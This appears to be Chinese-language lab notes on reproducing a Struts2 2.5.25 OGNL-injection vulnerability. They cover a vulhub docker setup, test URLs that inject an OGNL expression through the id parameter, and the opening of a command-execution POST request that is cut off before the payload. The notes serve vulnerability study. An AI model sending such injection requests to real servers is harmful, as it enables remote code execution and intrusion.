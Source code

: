 ### Struts历史漏洞 

https://struts.apache.org/releases.html 

https://www.cnblogs.com/qiantan/p/10695567.html

# 3、漏洞本地源码复现

## 靶场搭建方式

### 1、本地源码（可以debug调试） 

### 2、vulhub Docker构建（同s061） 

测试：

```
http://47.120.13.249:8080/index.action?id=123456

http://47.120.13.249:8080/index.action?id=%25{6*6}
```

**注：%25 --> %      %25{6*6} --> 36**

### docker-compose.yml 

```
version: '2' 
services: 
	struts2: 
	image: vulhub/struts2:2.5.25 
	ports: - "8080:8080" 
```

`docker-compose up -d` 

测试： 

```
http://47.120.13.249:8080/index.action?id=123456

http://47.120.13.249:8080/index.action?id=%25{6*6}
```

![image-20230424134349148](https://img.gyxnb.top/img/image-20230424134349148.png)

## payload1-执行命令

```
POST /index.action HTTP/1.1
Host: 47.120.13.249:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=node01c863u8lzu8eyn099a51bjyie0.node0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1191

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id" 

```